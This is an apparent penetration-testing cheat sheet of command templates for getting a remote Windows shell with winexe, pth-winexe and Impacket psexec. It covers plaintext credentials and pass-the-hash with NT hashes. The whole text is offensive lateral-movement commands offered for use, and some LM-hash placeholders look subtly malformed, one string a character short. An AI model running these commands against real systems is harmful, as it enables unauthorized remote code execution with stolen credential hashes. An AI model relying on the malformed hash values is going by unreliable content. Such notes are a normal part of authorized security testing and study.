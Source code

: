 # Unix Shell

## Samba Suite Utils

`$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>`

- Pass the Hash

`$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>`

## Impacket

`$ psexec <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ psexec <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ psexec <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ psexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>

$ psexec <domain_name>/<username>@<IP> -hashes :<NT>
```